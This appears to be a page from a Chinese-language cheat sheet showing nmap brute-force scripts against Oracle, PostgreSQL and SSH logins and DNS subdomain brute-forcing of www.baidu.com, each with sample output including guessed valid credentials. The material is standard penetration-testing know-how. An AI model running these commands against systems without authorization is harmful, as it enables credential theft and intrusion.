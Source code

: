 ### 对 Oracle 数据库进行暴破解

```
BASHnmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL <host>
PORT     STATE  SERVICE REASON
1521/tcp open  oracle  syn-ack
| oracle-brute:
|   Accounts
|     system:powell => Account locked
|     haxxor:haxxor => Valid credentials
|   Statistics
|_    Perfomed 157 guesses in 8 seconds, average tps: 19
```

### 对 pgSQL 的暴力破解

```
BASHnmap -p 5432 --script pgsql-brute <host>
5432/tcp open  pgsql
| pgsql-brute:
|   root:<empty> => Valid credentials
|_  test:test => Valid credentials
```

### 对 SSH 进行暴力破解

```
BASHnmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst --script-args ssh-brute.timeout=4s <target>
22/ssh open  ssh
| ssh-brute:
|  Accounts
|    username:password
|  Statistics
|_   Performed 32 guesses in 25 seconds.
```

### 利用 DNS 进行子域名暴力破解

```
BASHnmap --script dns-brute www.baidu.com
λ nmap --script dns-brute www.baidu.com                      

Starting Nmap 7.50 ( https://nmap.org ) at 2017-07-25 13:12 ?
Nmap scan report for www.baidu.com (180.97.33.108)           
Host is up (0.018s latency).                                 
Other addresses for www.baidu.com (not scanned): 180.97.33.10
Not shown: 998 filtered ports                                
PORT    STATE SERVICE                                        
80/tcp  open  http                                           
443/tcp open  https                                          

Host script results:                                         
| dns-brute:                                                 
|   DNS Brute-force hostnames:                               
|     admin.baidu.com - 10.26.109.19                         
|     mx.baidu.com - 61.135.163.61                           
|     svn.baidu.com - 10.65.211.174                          
|     ads.baidu.com - 10.42.4.225                                                

Nmap done: 1 IP address (1 host up) scanned in 92.64 seconds
```
